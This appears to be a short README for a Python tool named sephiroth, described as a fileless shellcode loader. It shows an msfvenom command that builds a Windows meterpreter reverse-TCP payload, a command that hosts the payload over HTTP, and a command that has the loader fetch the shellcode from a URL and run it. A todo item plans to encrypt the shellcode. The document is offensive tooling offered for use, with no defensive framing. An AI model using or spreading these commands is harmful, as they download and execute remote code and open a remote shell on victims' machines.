 ![Alt text](<2024-02-20 07_45_57-C__Windows_System32_cmd.exe.png>)

Greetings
-------------------

sephiroth  is a Fileless Shellcode Loader with Python :


Usage: python Sephiros.py -url 'urlforshellcode'


you can also just embed shellcode into the PE using -sh 'pathofshellcode'

fileless executing example:
-------------------
generate shellcode with:

msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=0.0.0.0 LPORT=5555 -f raw  -o shellcode

python3 -m http.server 80


then:

python Sephiroth.py -url http://yourip/shellcode

todo
--------
asymetric encryption to the shellcode
